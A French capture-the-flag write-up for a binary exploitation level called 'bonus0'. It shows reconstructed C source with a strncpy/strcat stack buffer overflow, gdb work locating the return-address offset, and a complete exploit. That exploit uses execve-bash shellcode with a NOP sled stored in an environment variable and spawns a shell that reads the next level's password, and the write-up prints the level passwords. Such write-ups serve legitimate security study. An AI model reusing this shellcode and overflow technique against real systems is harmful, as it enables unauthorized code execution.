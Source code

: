 # Bonus0

pass : `f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728`

## Sources :

```c
#include <stdio.h>
#include <unistd.h>
#include <string.h>

void	p(char *str, char *sep) {  // 0x080484b4
	char buf[4096];  // ebp-1008 | esp+0x10 / size : 0x1008 - 0x8
	puts(sep);
	read(stdin, buf, 4096);
	char *ptr = strchr(buf, '\n');
	*ptr = '\0';
	strncpy(str, buf, 20);  // 0x14
}

void	pp(char *buf) {  // 0x0804851e
	char a[20];  // ebp-0x30 | esp+0x20
  char b[20];  // ebp-0x1c | esp+0x34
  
	p(a, " - ");
	p(b, " - ");
	strcpy(buf, a);
	buf[strlen(buf)] = ' ';
	strcat(buf, b);
}

int		main(int ac, char **av) {  // 0x080485a4
	char buf[42];  // esp+0x16 / size : 0x40-0x16

	pp(buf);
	puts(buf);
	return (0);
}
```

## Recherche :

Le points d'entrés sont par les 2 calls à `read(stdin, buf, 4096)`.
`strcpy` copie la source dans la destination et rajoute `\0`
`strncpy` fait de même, mais si la taille est atteinte, il ne rajoute pas de `\0` à la fin de sa chaine.

Donc si le premier `read` fait exactement plus de 20 caractères, les 20 premiers caractères vont être copiés dans `a` sans rajouté de `\0` et comme la mémoire est contingente, `a` et `b` se suivent. `strcat` va donc dans `buf` `ab b`

`a` se trouve à l'adresse `0xbffff1e8`
`b` se trouve à l'adresse `0xbffff1fc`

On écrit donc `20 + 20 + 1 + 20` caractères dans `buf` qui dépasse les `42` aloués, et on écrit donc dans la stack.
Et quand on quitte le main, et qu'on déstack, on se retrouve à écrire dans `EIP` et le programme segfault.

```shell
./bonus0
 -
abcdefghijabcdefghij
 -
01234567890123456789
abcdefghijabcdefghij01234567890123456789 01234567890123456789
[1]    3889 segmentation fault  ./bonus0
```

Avec gdb, c'est plus clair, et on voit que `EIP` est réécrit au 9<sup>ème</sup> caractère du second `read`.

On voit qu'on peut aussi lancer en une commande :
```gdb
(gdb) r < <(python -c 'print "A"*4095 + "\n" + "B"*9 + "0123" + "C" * 200')
Starting program: /home/user/bonus0/bonus0 < <(python -c 'print "A"*4095 + "\n" + "B"*9 + "0123" + "C" * 200')
 -
 -
AAAAAAAAAAAAAAAAAAAABBBBBBBBB0123CCCCCCC��� BBBBBBBBB0123CCCCCCC���

Program received signal SIGSEGV, Segmentation fault.
0x33323130 in ?? ()
```
On retrouve bien notre `0x33323130`, à savoir "0123"


On va mettre notre shell code dans une variable d'environnement en laissant un peu de place avant :
`export EXPLOIT=$(python -c 'print "\x90" * 4096 + "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"')`

Avec gdb, on va chercher l'adresse de la variable d'environnement avec `p/s *environ`. Si on ne la trouve pas direct, on peut afficher les suivants `p/3s *environ`

On va décaller cette adresse de 512 pour être sûr de tomber dessus. `p/x 0xbfffe8e0 + 512`
On décalle cette adresse car selon les argument, l'adresse de `EXPLOIT` peut changer. Ici on est sûr.



## Exploit :

```sh
sh $ export EXPLOIT=$(python -c 'print "\x90" * 4096 + "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"')
sh $ gdb ./bonus0
(gdb) b main
(gdb) r
(gdb) p/s *environ
0xbfffe8e0:      "EXPLOIT=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220"...
(gdb) p/x 0xbfffe8e0 + 512
$1 = 0xbfffeae0
(gdb) q
sh $ python -c 'print "A" * 4095 + "\n" + "\x90"*9 + "\xe0\xea\xff\xbf" + "AAAA" * 50' > /tmp/a; cat /tmp/a - | ./bonus0
 -
 -
AAAAAAAAAAAAAAAAAAAA�������������AAAAAAA��� �������������AAAAAAA���

whoami
bonus1
cd ../bonus1
cat .pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```

## Documentation :
* https://stackoverflow.com/questions/14760587/how-does-a-nop-sled-work#:~:text=The
